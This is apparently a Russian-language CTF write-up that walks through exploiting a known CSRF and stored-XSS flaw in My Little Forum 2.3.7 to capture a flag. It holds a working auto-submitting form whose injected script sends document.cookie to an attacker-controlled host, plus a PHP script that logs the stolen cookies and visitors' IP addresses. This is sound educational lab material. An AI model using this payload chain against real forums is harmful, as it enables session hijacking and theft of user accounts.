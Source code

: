 ﻿# Форум для всех

Веб-сайт:
![Site](/img/4.png)

1. Заходим на форум. Видим, что уже многие пробовали XSS и т.д. Имеем достаточно много инпутов: куки 4 штуки, различные формы и GET запросы. Заставлять участников првоерять их все - очень жестоко.
2. Внизу страницы видим `powered by My Little Forum 2.3.7` Значит это какой-то сторонний движок.
3. Идем в гугл. Вбиваем My Little Forum 2.3.7. Видим, что это уязвимая версия. Переходим к примеру на этот сайт https://www.exploit-db.com/exploits/40676/
4. Читаем про уязвимости. Пробуем первую.
6. Для CSRF и XSS копируем форму с сайта и делаем так, чтобы при переходе на нее автоматически отправляла POST запрос на указанный адрес:
````html
<form action="http://10.0.38.133:61937/index.php?mode=admin&action=edit_page" method="post" accept-charset="utf-8">
<input type="hidden" name="mode" value="admin">
<input type="hidden" name="title" value="Stored XSS 
<script>alert(1)</script>">
<input type="hidden" name="content" value="Stored XSS 
<script>alert(2)</script>">
<input type="hidden" name="menu_linkname" value="<script>var img=new Image();img.src='https://your_site/index.php?'+ encodeURI(document.cookie);</script>">
<input type="hidden" name="edit_page_submit" value="1">
<input type="submit" name="edit_page_submit" value="OK - Save page">
</form>
<body onload="document.forms[0].submit()">
````
PHP код:
````php
<?php
$text = urldecode($_SERVER['QUERY_STRING']);

if (!empty($_SERVER['HTTP_CLIENT_IP'])) 
{
	$ip=$_SERVER['HTTP_CLIENT_IP'];
}
elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
{
	$ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
}
else
{
	$ip=$_SERVER['REMOTE_ADDR'];
}
$file=fopen("file.txt", "a");
fwrite ($file, $text.PHP_EOL);
fwrite ($file, $ip.PHP_EOL);
fwrite ($file, $_SERVER['HTTP_REFERER'].PHP_EOL);
fclose($file);
?>
````
````

7. В одно из полей пишем свой XSS, чтобы ловить куки. Нпаример, в поле menu_linkname.
8. Пишем на форуме пост со своей ссылкой.
9. Получаем куку с flag.
